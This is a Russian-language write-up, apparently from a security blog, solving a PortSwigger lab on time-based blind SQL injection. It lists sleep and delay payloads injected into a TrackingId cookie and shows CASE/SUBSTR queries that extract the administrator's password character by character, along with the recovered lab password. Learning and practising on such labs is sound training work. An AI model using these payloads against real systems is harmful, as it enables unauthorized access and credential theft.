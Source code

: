 ```yaml
---
title: "Blind SQL injection with time delays and information retrieval"
date: 2025-06-13
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval"
classes: wide
---
```


В данной лабе есть уязвимый к **Time blind based SQL injection**. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


```
https://0a9b002a03f6156ee5dd4c68003a0047.web-security-academy.net/
```


## Solution

**Time blind based SQL injection** означает, что у нас нет отображения ошибок и другой информации из БД. Для осуществления такой инъекции необходимо отслеживать изменения времени при отправке запросов.

В данной лабе есть подсказка, что уязвимость находится в `Cookies`. Поэтому посмотрю на содержимое `HTTP`-запроса:

```http
GET / HTTP/2
Host: 0a9b002a03f6156ee5dd4c68003a0047.web-security-academy.net
Cookie: TrackingId=1dcxlzC6I5A65xtx; session=iP7BLvBRbkoKbXESrV5ui6fMOoyzhqpl
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9b002a03f6156ee5dd4c68003a0047.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Скорее всего уязвимость находится в `TrackingId`. Поэтому попробую подобрать обрамление для запроса. Но у нас не будет никаких изменений на странице, так как это **blind time based**. Для отображения результата нужно использовать функции `sleep()` и обращать внимание на время ответа:

```
TrackingId=1dcxlzC6I5A65xtx' and SELECT sleep(10)-- -Ok
TrackingId=1dcxlzC6I5A65xtx' and WAITFOR DELAY '0:0:10'-- -Ok
rackingId=1dcxlzC6I5A65xtx' and SELECT pg_sleep(10)-- -ok
rackingId=1dcxlzC6I5A65xtx' and dbms_pipe.receive_message(('a'),10)-- -Ok
TrackingId=1dcxlzC6I5A65xtx'; SELECT sleep(10)-- -Ok
TrackingId=1dcxlzC6I5A65xtx'; WAITFOR DELAY '0:0:10'-- -Ok
rackingId=1dcxlzC6I5A65xtx'; SELECT pg_sleep(10)-- -delay
```

Наконец получилось найти нужный пейлод. Использую `CASE`, чтобы найти длину пароля:

```
rackingId=1dcxlzC6I5A65xtx'; SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username = 'admninistrator'-- -delay
```

Значит искомый пароль имеет длину 20. Для его получения буду вытаскивать символ за символом с помощью `SUBSTR`:

```
rackingId=1dcxlzC6I5A65xtx'; SELECT CASE WHEN SUBSTR(password,1,1) = 'a' THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'-- -
```

Запросы буду делать с помощью атаки `Brute Force` в `Intruder`. Нужный символ можно будет найти по большому времени ответа:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_time_delays_and_information_retrieval/2.png){: height="200" .align-center}


Пароль подобран: `9zyi3emsavu9x3h6q29h`. Проверю:


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_Blind_SQL_injection_with_time_delays_and_information_retrieval/1.png){: height="200" .align-center}


Что же может быть лучше слепых `SQL` инъекций? Конечно же слепые инъекции на задержки по времени) ☕
